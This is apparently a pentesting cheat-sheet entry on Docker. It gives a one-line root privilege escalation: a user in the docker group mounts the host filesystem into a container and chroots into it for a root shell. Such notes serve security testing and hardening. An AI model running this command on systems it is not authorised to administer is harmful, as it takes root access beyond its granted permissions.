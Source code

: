 ```yaml
---
title: Docker
desc: A set of platform as a service products that use OS-level virtualization to deliver software in packages called containers.
tags: [Docker, Linux, PrivEsc]
alts: [ContainerEscape]
website: 
render_with_liquid: false
---
```


## Root Privilege Escalation

```sh
# Check if current user belongs to "docker" group.
groups

# If the user belongs to "docker" group, you can get a root shell.
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
